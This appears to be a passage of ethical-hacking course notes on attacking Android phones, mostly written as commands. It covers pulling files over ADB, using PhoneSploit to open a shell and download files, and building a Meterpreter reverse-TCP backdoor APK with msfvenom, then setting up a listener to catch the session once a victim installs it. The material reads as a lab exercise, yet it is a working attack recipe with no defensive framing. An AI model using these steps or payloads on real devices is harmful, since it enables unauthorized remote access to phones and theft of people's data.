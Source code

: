# 17 - Hacking Mobile

## **Module 17 - Hacking Mobile Platforms**

###

###

### Download a file from Android using ADB Tool

```bash
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

### Download a file from Android using PhoneSploit

```bash
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
#OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

#Enter the Full Path of file to Download
sdcard/Download/secret.txt
```

## Generating and Executing Payloads for Android

#### Setup Android

* Open terminal, run `su`
* Run `ip addr add 10.10.10.69/24 dev eth0`

#### Generate Payload&#x20;

* `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.10.11 R > Desktop/Backdoor.apk` R raw
* Host the payload and run a listener on Kali
* Type `use exploit/multi/handler`
* Type `set payload android/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit -j -z`
* Browse link of file to start meterpreter session.

#### Exploit Execution

* Open kali hosted link.
* Download APK using es file downloader.
* Install and run.

### **Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download
